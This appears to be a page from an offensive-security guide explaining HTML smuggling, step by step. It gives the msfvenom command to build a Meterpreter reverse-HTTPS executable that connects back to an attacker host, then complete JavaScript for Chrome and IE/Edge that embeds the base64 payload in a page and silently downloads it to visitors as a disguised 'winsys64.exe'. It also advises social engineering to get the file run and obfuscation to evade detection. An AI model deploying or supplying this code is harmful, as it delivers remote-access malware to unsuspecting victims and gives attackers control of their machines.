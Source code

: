 # Using JavaScript

Overview of steps required to embed JavaScript within an HTML document that will trigger an automatic download of a first stage payload to a target system when the web page is visited by the victim. The file still has to be saved to disk by the user and then manually executed, which will require manipulating the user to performs these tasks via social engineering and/or pretexting.

{% hint style="info" %}
This example is for educational purposes only. In the real world, this code will be further obfuscated in order to evade detection.
{% endhint %}

### Steps

The steps below walks you through creating JavaScript code that is compatible with Chrome. For IE/Edge, see the full script section for the compatible code. Note that the IE/Edge code does not work with Chrome and vice versa.

#### Step 1:

Generate a Meterpreter shellcode windows binary.&#x20;

```
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.10.10 LPORT=443 -f exe -o /var/www/html/o.exe
```

Generate a base64 encoded string of the binary to help avoid invalid or bad characters.

```
base64 /var/www/html/o.exe
```

#### Step 2:

Write a base64 to byte array converter function in JavaScript to decode the shellcode into a byte array.

```javascript
function base64ToByteArray(enc) { 
    var binaryString = window.atob(enc); 
    var len = binaryString.length; 
    var byteArray = new Uint8Array(len); 
    for (var i = 0; i < len; i++) { 
        byteArray[i] = binaryString.charCodeAt(i); 
        } 
    return byteArray.buffer; 
}
```

#### Step 3:

Create a variable to store the filename for the payload that will be saved on the target system.

```javascript
var outName = 'winsys64.exe';
```

#### Step 4:

Store the base64 encoded payload in a variable. Remove any line breaks or new lines from the base64 encoded executable to embed it as one continuous string (or, wrap each line in quotes).

```javascript
var payL ='TvqQAAMAAAAEAAAA//8AAAA…’ <--base64 encoded binary -->
```

#### Step 5:

Convert the encoded shellcode into a bytearray and store in a new variable.

```javascript
var stream = base64ToByteArray(payL);
```

#### Step 6:

To use the HTML5 download attribute, create a blob object and instantiate it with the payload byte array.

```javascript
var blobby = new Blob([stream], {type: 'octet/stream'});
```

#### Step 7:

Create a URL file object using the blob object. This simulates a file located on the web server, but instead reads it from memory.

```javascript
var urlRef = window.URL.createObjectURL(blobby);
```

#### Step 8:

Create the new anchor object and append it to the HTML document. Set the display attribute to none to hide it from the output of the rendered page.

```javascript
var anc = document.createElement('a');
document.body.appendChild(anc);
anc.style = 'display: none';
```

#### Step 9:

Set the href tag to the URL file object created in step 7.

```javascript
anc.href = urlRef;
```

#### Step 10:

Set the download attribute by specifying the filename to store the payload in. Use the click() method to trigger the download onto the target machine.

```javascript
anc.download = outName;
anc.click();
```

Step 11:

Finally, let the browser know that you are finished with the URL object so it knows not to keep the reference to the file any longer.

```javascript
window.URL.revokeObjectURL(urlRef);
```

### Full script (Chrome)

```javascript
<script>
function base64ToByteArray(enc) { 
    var binaryString = window.atob(enc); 
    var len = binaryString.length; 
    var byteArray = new Uint8Array(len); 
    for (var i = 0; i < len; i++) { 
        byteArray[i] = binaryString.charCodeAt(i); 
        } 
    return byteArray.buffer; 
}
var outName = 'winsys64.exe';
var payL ='TvqQAAMAAAAEAAAA//8AAAA…   <--base64 encoded binary (truncated)->
var stream = base64ToByteArray(payL);
var blobby = new Blob([stream], {type: 'octet/stream'});
var urlRef = window.URL.createObjectURL(blobby);

var anc = document.createElement('a');
document.body.appendChild(anc);
anc.style = 'display: none';
anc.href = urlRef;
anc.download = outName;
anc.click();
window.URL.revokeObjectURL(urlRef);
</script>
```

### Full script (IE/Edge)

```javascript
<script>
function base64ToByteArray(enc) { 
    var binaryString = window.atob(enc); 
    var len = binaryString.length; 
    var byteArray = new Uint8Array(len); 
    for (var i = 0; i < len; i++) { 
        byteArray[i] = binaryString.charCodeAt(i); 
        } 
    return byteArray.buffer; 
}
var outName = 'winsys64.exe';
var payL ='TvqQAAMAAAAEAAAA//8AAAA…   <--base64 encoded binary (truncated)->
var stream = base64ToByteArray(payL);
var blobby = new Blob([stream], {type: 'octet/stream'});
window.navigator.msSaveOrOpenBlob(blobby, outName);
</script>
```





